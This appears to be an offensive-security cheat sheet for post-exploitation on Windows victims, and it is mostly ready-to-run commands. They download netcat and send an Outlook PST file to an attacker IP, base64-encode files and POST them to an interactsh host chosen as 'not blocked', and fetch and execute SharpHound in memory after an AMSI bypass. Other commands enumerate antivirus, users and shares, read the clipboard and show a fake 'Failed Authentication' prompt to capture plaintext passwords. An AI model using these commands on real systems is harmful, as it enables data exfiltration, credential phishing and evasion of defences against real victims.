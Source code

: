# Exfiltrate and find data and info
On victim/client:

In powershell shell (powershell has the wget command):
```cmd
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe -Outfile nc.exe
cmd /c 'nc.exe -w 3 <yourIP> 80 < Outlook.pst'
```

On receiving server:

```bash
nc -l -p 80 > Outlook.pst
```


Or via HTTP requests (interact.sh service):

First go to interactsh.com and copy the unique link you get.

file/pdf extraction via public service which is used legitimate and thus not blocked:
```powershell
$File = "file.pdf"
$uri = "ID.interactsh.com" # change the ID 
$pdf = Get-Content $File -Encoding Byte; 
$base64 =[Convert]::ToBase64String($pdf)
Invoke-WebRequest -uri $uri -Method Post -Body $base64
```

Use https://base64.guru/converter/decode/file#download-preview-file to get the file from the base64 content

bloodhound:
```powershell
# FIRST run AMSI bypass! 
$url = "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1"
IEX([Net.Webclient]::new().DownloadString($url))
mkdir "$Env:PUBLIC\bloodhound"
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default  -OutputDirectory "$Env:PUBLIC\bloodhound"
# use file/pdf extraction to get the zip file. 
```

View AV used:
```powershell
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List #Powershell
```

View information about current user:
```powershell
whoami
net user <name_user_whoami_without_domain> /domain
hostname
```

Show mounted shares:
```
Get-WmiObject Win32_NetworkConnection | ft "LocalName","RemoteName" -A #powershell
net use # cmd
```

Get clipboard content: 

```powershell
powershell -command "Get-Clipboard"
```
Ask for credentials:
```powershell
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password

#Get plaintext
$cred.GetNetworkCredential() | fl
```

# Additional commands
https://github.com/r00t-3xp10it/venom/wiki/CmdLine-&-Scripts-for-reverse-TCP-shell-addicts
